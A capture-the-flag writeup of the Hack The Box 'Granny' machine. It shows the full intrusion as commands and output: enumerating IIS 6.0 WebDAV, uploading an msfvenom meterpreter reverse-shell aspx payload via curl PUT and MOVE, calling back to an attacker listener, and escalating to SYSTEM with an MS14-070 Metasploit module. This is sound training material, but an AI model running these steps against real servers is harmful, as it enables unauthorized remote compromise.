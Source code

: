 ```yaml
---
layout: writeup
title: Granny
description: "HTB writeup"
logo: /assets/img/writeups/granny_logo.png
show-avatar: false
permalink: /writeups/granny.html
OS: Windows
difficulty: Easy
release: 12 Apr 2017
creator: <a href="https://www.hackthebox.eu/home/users/profile/1">ch4p</a>
cleared: 12 Nov 2019
published: 2019 11 12
redirect_from: /walkthroughs/granny.html
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Tue Nov 12 17:01:01 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.080s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Tue, 12 Nov 2019 22:03:04 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:03:00 2019 -- 1 IP address (1 host up) scanned in 118.58 seconds
```

we see the only open port is **80** and if we navigate to the page we see a default "Under Construction" page. However we see from the scan that it using webDAV. So lets run **davtest**

![davtest](/assets/img/writeups/granny_davtest.png)

Looking at the output of running **nikto** we see that the server is running ASP.net.

```
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.15
+ Target Port: 80
+ GET Retrieved microsoftofficewebserver header: 5.0_Pub
+ GET Retrieved x-powered-by header: ASP.NET
<...>
```

However davtest shows us that we can't use PUT to upload an asp or aspx file. However running davtest with the -move flag

```
root@kali:~/HTB/Boxes/Granny# davtest -url http://10.10.10.15 -move                       <...>  
Sending test files (MOVE method)
<...>
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_asp.txt
MOVE    asp     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.asp                               <...>
http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.cfm
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_aspx.txt
MOVE    aspx    SUCCEED:
<...>
```

shows us that we can use MOVE to change a file extension to .asp or .aspx

With that knowledge, let's create an .aspx payload and upload it as a .html file and rename it to .aspx file

<h3 align="center">Explotation</h3>

Let's create a payload with **msfvenom**

```sh
root@kali:~/HTB/Boxes/Granny# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o hilbert.html                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2818 bytes 
Saved as: hilbert.html
```

Now we'll use **curl** to upload the file to the server and change the extension

```sh
root@kali:~/HTB/Boxes/Granny# curl http://10.10.10.15 --upload-file hilbert.html
root@kali:~/HTB/Boxes/Granny# curl -X MOVE --header 'Destination:http://10.10.10.15/hilbert.aspx' 'http://10.10.10.15/hilbert.html'
```

Then we will run **Metasploit** and use a multi hander to listen for our shell

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
```

Then we will direct our browser to hilbert.aspx to activate our reverse shell

```
[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Sending stage (180291 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.15:1031) at 2019-11-18 16:30:40 -0500

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Next we will use exploit suggester to find a vulnerability we can use for privilege escalation

```
meterpreter > bg
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(multi/handler) > use 0
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

The exploit that will work is "exploit/windows/local/ms14_070_tcpip_ioctl"

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > session -i 1
[-] Unknown command: session.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

We now have full access to the system and can read the user.txt and root.txt flags.

